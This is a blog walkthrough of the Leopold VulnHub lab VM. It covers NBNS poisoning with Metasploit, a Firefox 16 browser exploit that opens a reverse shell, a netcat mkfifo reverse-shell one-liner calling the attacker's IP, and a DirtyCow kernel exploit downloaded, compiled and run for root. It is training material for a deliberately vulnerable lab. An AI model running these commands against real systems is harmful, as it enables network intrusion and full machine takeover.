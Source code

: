 ```yaml
---
layout: post
title: Walkthrough of Leopold
published: true
categories: [vm]
tags: [vulnhub,sp,leopold]
fullview: false
description: A walkthrough the leopold VM on VulnHub
comments: true
---
```


# Intro

Leopold was the second machine I created for my <a href="https://www.vulnhub.com/series/sp,189/">SP series</a> in late 2018, and I think it's the most popular of my machines. There are many walkthroughs out there for Leopold, but I wanted to show how I intended to solve it, but I have also made the walkthrough from an objective standpoint. Leopold is very different from any other VM that I have seen on VulnHub due to it's client-side aspect and will teach a real-world attack vector commonly used in penetration tests. Lastly, I would personally view this VM as easy in difficulty, but I have seen people complain about this. However, I think this is due to the unfamiliarity with this kind of exploitation.

## Enumeration

After finding the server on the network, we do a port scan to determine the services running:

```
$ nmap -sTV 192.168.0.31 -n -p-
---
PORT    STATE SERVICE     VERSION
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
---
```

The smb service doesn't yield anything useful, other than that it's a Linux machine, due to the Samba implementation of SMB. Where do we go from here? Let's fire up Wireshark to see if we can learn anything from there.

After some minutes we can see that there is a NBNS request for DISNEYWORLD made from leopold:
```
192.168.0.31 192.168.0.255 NBNS 92 Name query NB DISNEYWORLD<00>
```

## Setting up Man-in-the-middle

Netbios Name Service (NBNS) is like DNS, but simpler and decentralized. Instead of asking a server for hostname resolution, it sends out a broadcast asking the whole network if they know which IP-address a hostname resolves to. It is usually used together with LLMNR and mDNS as backup if a DNS request would fail. These protocols trusts the answers blindly, which makes them optimal for poisoning attacks to reroute the communication through our attacking machine.

There are multiple tools we can use for this, but we will stick to a Metasploit module which was made exactly for this.

Open Metasploit and use the auxiliary/spoof/nbns/nbns_response module. Set REGXP to "disneyworld" and SPOOFIP to your own attacking IP address. Keep Wireshark before writing "run" and hitting enter to start the module.

```
msf5 auxiliary(spoof/nbns/nbns_response) > options 

Module options (auxiliary/spoof/nbns/nbns_response):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   INTERFACE                   no        The name of the interface
   REGEX      disneyworld      yes       Regex applied to the NB Name to determine if spoofed reply is sent
   SPOOFIP    192.168.0.32     yes       IP address with which to poison responses
   TIMEOUT    500              yes       The number of seconds to wait for new data


Auxiliary action:

   Name     Description
   ----     -----------
   Service  Run NBNS spoofing service


msf5 auxiliary(spoof/nbns/nbns_response) > run
[*] Auxiliary module running as background job 0.

[*] NBNS Spoofer started. Listening for NBNS requests with REGEX "disneyworld" ...
msf5 auxiliary(spoof/nbns/nbns_response) > 
```

Soon we will see the following output in Metasploit, meaning that leopold now thinks that the DISNEYWORLD hostname is resolving to our attacking computer.
```
[+] 192.168.0.31     nbns - DISNEYWORLD matches regex, responding with 192.168.0.32
```

We will also soon after see some TCP requests to port 80 from leopold to our attacking machine in Wireshark. However, we don't have anything running on port 80. We can fire up a netcat listener to see the request.

```
root@kali:~# nc -nlvp 80
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 192.168.0.31.
Ncat: Connection from 192.168.0.31:51910.
GET / HTTP/1.1
Host: disneyworld
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:16.0) Gecko/20100101 Firefox/16.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
```

Here we have the request leopold is making. There is two key pieces of information we can gather from this, namely the user-agent string and the endpoint he is trying to reach, which is the root directory. After a quick web search on the user-agent string, we learn that leopold is using Firefox 16.

## Initial Access

Searching for "firefox" in searchsploit gives many possible alternatives and after some research, the "toString console.time Privileged JavaScript Injection" exploit seems to be a match for the Firefox version in question and there is even a Metasploit module for it. The module sets up a webserver on the attacking machine to serve the browser exploit to visitors. Let's change the SRVPORT to 80, which was the port leopold was trying to reach, and URIPATH to "/", before running it.

```
msf5 exploit(multi/browser/firefox_tostring_console_injection) > options 

Module options (exploit/multi/browser/firefox_tostring_console_injection):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CONTENT                   no        Content to display inside the HTML <body>.
   Retries  true             no        Allow the browser to retry the module
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  80               yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.0.32     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Universal (Javascript XPCOM Shell)


msf5 exploit(multi/browser/firefox_tostring_console_injection) > 
```

After some minutes we get a shell:

```
[*] 192.168.0.31     firefox_tostring_console_injection - Sending HTML response to 192.168.0.31
[-] 192.168.0.31     firefox_tostring_console_injection - Target 192.168.0.31 has requested an unknown path: /favicon.ico
[-] 192.168.0.31     firefox_tostring_console_injection - Target 192.168.0.31 has requested an unknown path: /favicon.ico
[*] Command shell session 1 opened (192.168.0.32:4444 -> 192.168.0.31:36555) at 2020-09-15 17:15:05 -0400
msf5 exploit(multi/browser/firefox_tostring_console_injection) > sessions -i 1
[*] Starting interaction with 1...

id
uid=1000(leopold) gid=1000(leopold) groups=1000(leopold),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),107(lpadmin),124(sambashare)

```

The shell is not stable and dies after some mintues. To fix this, we can create a new shell. Open a new netcat listener on port 3333 on the attacking machine and write the code below in the current shell. Remember to change the attacking IP address.
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.32 3333 >/tmp/f
```


## Priv Esc

Due to the old Linux kernel version, we can try the goto DirtyCow exploit. Simply download, rename and host the source code on the attacking machine:

```
root@kali:~# wget https://www.exploit-db.com/download/40839
root@kali:~# mv 40839 40839.c
root@kali:~# python3 -m http.server 8080
```

Download, compile and run the exploit on the target host, from the remote leopold shell:

```$ wget http://192.168.0.32
$ gcc 40839.c -o cow -pthread -lcrypt
$ ./cow
```

Enter a password for the firefart root user and wait for the exploit to finish, before switching to the firefart user:

```
$ su firefart
$ id
$ uid=0(firefart) gid=0(root) groups=0(root)
```

## Summary

Leopold is a workstation and a user trying to browse the Internet. What is most likely a typo in the address bar of the web browser, results in DNS failing and the computer resorts to alternative name resolution systems, which are open for man-in-the-middle attacks. From here we poisoned the name resolution request and redirected Leopold's traffic to our attacking computer which served a browser exploit, gaining us remote access to Leopold's computer. Using a well known kernel exploit, we managed to gain administrative rights to his computer.  
  
This attack vector is being actively used in real world penetration tests, with tools such as Responder, that works with a lot of different protocols and sets up various fake services, such as SMB to steal domain credentials and hashes.
